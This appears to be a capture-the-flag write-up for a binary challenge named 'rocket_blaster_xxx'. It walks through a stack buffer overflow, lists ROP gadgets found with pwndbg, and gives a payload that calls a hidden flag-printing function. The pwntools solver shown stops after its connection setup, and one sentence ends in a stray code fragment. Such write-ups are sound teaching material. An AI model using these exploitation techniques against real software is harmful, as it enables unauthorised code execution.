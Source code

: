 There are 3 key points here:

* The function opens `flag.txt` -> `local_c = open("./flag.txt",0);`
* It takes `3` arguments -> `param1`, `param2`, `param3` and compares them with `0xdeadbeef`, `0xdeadbabe` and `0xdead1337` accordingly.
* If the comparison is met, it prints the flag.

Our goal is to reach this function, which is never called. What we are going to do is:

* Fill the `local_28[32]` buffer with 32 bytes of junk.
* Overwrite the `stack frame pointer` with 8 bytes of junk.
* Overwrite the `return address` with the address of `fill_ammo()`, 8 bytes aligned and correct `endianness`.

But, before we call the function, we need to pass it 3 parameters first, otherwise it will print the error message and exit.

It is known that in a function, let's say `foo(arg1, arg2, arg3)`, the first argument is stored in `$rdi`, the second in `$rsi` and the third in `$rdx` register. Luckily for us, all gadgets are present in the binary and can be used.

```gdb
pwndbg> rop --grep 'pop rdi'
0x000000000040159f : pop rdi ; ret
pwndbg> rop --grep 'pop rsi'
0x00000000004013ae : pop rsi ; or al, 0 ; add byte ptr [rax - 0x77], cl ; ret 0x8d48
0x000000000040159d : pop rsi ; ret
pwndbg> rop --grep 'pop rdx'
0x000000000040159b : pop rdx ; ret
```

The final payload should look like this:

```python
payload = b'A'*40 + p64(pop_rdi) + p64(0xdeadbeef) + p64(pop_rsi) + p64(0xdeadbabe) + p64(pop_rdx) +  p64(0xdead1337) + p64(ret) + p64(fill_ammo)
```

The `ret` gadget is used for `stack alignment`. The rest are self explanatory, each register is popped and filled with the corresponding value to set the parameters of `fill_ammo` that is called in the end.p64(0xdead1337)

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './rocket_blaster_xxx' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

```